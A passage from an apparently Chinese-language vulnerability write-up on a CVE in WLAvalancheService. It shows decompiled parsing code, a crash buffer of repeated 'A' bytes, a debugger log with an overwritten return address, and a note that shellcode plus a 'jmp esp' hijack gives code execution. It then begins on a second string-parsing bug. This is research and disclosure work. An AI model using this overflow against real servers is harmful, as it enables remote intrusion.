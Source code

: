 ```clike
    else
      v4 = Value[i + 1] - 32;
    if ( v5 < 0x30u || v5 > 0x39u )
      v9 = v5 - 55;
    else
      v9 = v5 - 48;
    v10 = 16 * v9;
    if ( v4 < 0x30u || v4 > 0x39u )
      v11 = v10 + v4 - 55;
    else
      v11 = v10 + v4 - 48;
    *Value_ptr++ = v11;
    ++v7;
  }
  return v7;
}
```

控制成如下的buf，可以使程序崩溃。对应的利用也非常简单，只需要将shellcode写入buf中，劫持jmp esp即可

```clike
buf = b'41' * 0x100000
buf2 = b'41' * 0x10000

(a0c.5298): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
WLAvalancheService+0x2b49e:
0042b49e 8810            mov     byte ptr [eax],dl          ds:002b:05110000=??
0:042:x86> kb
 # ChildEBP RetAddr      Args to Child          
WARNING: Stack unwind information not available. Following frames may be wrong.
00 0510fa38 0042aa7b     029188a1 05110000 00000800 WLAvalancheService+0x2b49e
01 0510fb1c 0042b54e     028e6594 0510fb68 00000000 WLAvalancheService+0x2aa7b
02 0510fe88 41414141     41414141 41414141 41414141 WLAvalancheService+0x2b54e
03 0510fe8c 41414141     41414141 41414141 41414141 0x41414141
04 0510fe90 41414141     41414141 41414141 41414141 0x41414141
05 0510fe94 41414141     41414141 41414141 41414141 0x41414141
06 0510fe98 41414141     41414141 41414141 41414141 0x41414141
```

这个CVE里还存在另外一个漏洞。

在type类型为9的处理中，程序流会走到sub\\_429600函数，这个函数是从数据中提取出以分号分隔的子字符串，并返回该子字符串的长度和下一个子字符串的起始位置。

```clike
int __cdecl sub_429600(_BYTE **a1, _DWORD *a2, unsigned int a3)
{
  int v4; // [esp+0h] [ebp-8h]
  _BYTE *i; // [esp+4h] [ebp-4h]

  v4 = 0;
  for ( i = *a1; i < a3 && *i == ' '; *a1 = i )
    ++i;
  if ( i >= a3 )
    return 0;
  while ( i < a3 && *i != ';' )
  {
    ++i;
    ++v4;
  }
  *a2 = i + 1;
  return v4;
}
```

